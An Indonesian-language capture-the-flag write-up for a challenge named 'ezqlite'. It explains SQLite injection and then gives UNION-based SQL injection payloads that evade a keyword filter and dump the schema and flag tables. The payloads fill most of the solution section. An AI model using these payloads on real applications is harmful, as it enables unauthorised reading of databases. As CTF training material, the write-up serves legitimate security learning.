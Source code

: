 # **ezqlite**
Injecting aplikasi berbasis database SQLite merujuk pada tindakan memanipulasi atau menyisipkan data berbahaya ke dalam aplikasi yang menggunakan database SQLite. SQLite adalah mesin database tersemat yang populer dan banyak digunakan dalam aplikasi mobile, aplikasi desktop, dan sistem perangkat lunak lainnya.

Injecting SQLite mirip dengan jenis serangan injeksi database lainnya, seperti SQL injection, tetapi khusus menargetkan database SQLite. Ini melibatkan eksploitasi kerentanan dalam validasi input aplikasi atau pembentukan query untuk menjalankan operasi database yang tidak sah atau berbahaya.
Dalam serangan injeksi SQLite, seorang penyerang dapat mencoba:
1) Memanipulasi query SQL: Dengan menyisipkan pernyataan SQL berbahaya atau memodifikasi query yang ada, seorang penyerang dapat mengambil, mengubah, atau menghapus data dalam database SQLite di luar yang dimaksudkan atau diotorisasi.
2) Melewati autentikasi: Seorang penyerang dapat mencoba melewati mekanisme autentikasi dengan menyisipkan pernyataan SQL yang memanipulasi aplikasi agar memberikan akses yang tidak sah atau meningkatkan hak akses.
3) Menjalankan kode sewenang-wenang: Dalam beberapa kasus, seorang penyerang dapat mencoba menjalankan kode sewenang-wenang di dalam database SQLite, yang dapat menyebabkan eksekusi kode jarak jauh atau kompromi keamanan lainnya.
## **About the challenge**
Pada Challenge kali ini, probleset meminta pemain untuk melihat website yang dibuatnya dan probleset mengatakan website tersebut tidak ada yang aneh dan terlihat biasa-biasa aja, seperti website normal. Setelah saya check app.py ternyata website tersebut memiliki vulnerability dibagian fungsi ```filter_words(query)``` sehingga memungkinkan attacker dapat menyerang dikarenakan terdapat satu parameter yang rentan terhadap SQL Injection berbasis Union basis string.

![ezqlite](./image/ezqlite.PNG)
## **Solution**
Pertama, saya mencoba check apakah ada vulnerablity di query nya dengan kode ini ```'/*```. Tidak ada yang aneh, OK LANJUT

Selanjutnya, saya coba dump table tersebut dengan kode dibawah ini :
```
union select a%' uNion Select title, artist, rank from songs /*
```
Selanjutnya, saya dump table nya lagi dan lagi dengan kode dibawah ini :
```
a%' uNion SeLECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT lIke 'sqlite_%' /*
```
Ternyata ada yang janggal, terdapat 5 flag dan 4 diantaranya fake flag. 

Selanjutnya, saya coba dump info column nya dengan kode ini:
```
a%' uNion SeLECT sql, sql, sql FROM sqlite_schema;/* 
```
Jika sudah dapat info column nya, tahap terakhir cari satu persatu dari 5 flag yang ada dengan kode dibawah ini ;
```
a%' uNion SeLECT flag, flag, flag FROM flag_1;/*
a%' uNion SeLECT flag, flag, flag FROM flag_2;/*
a%' uNion SeLECT flag, flag, flag FROM flag_3;/*
a%' uNion SeLECT flag, flag, flag FROM flag_4;/*
a%' uNion SeLECT flag, flag, flag FROM flag_5;/*
```
Dan ternyata flag asli berada di flag_3

And We got flag
```
ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}
```
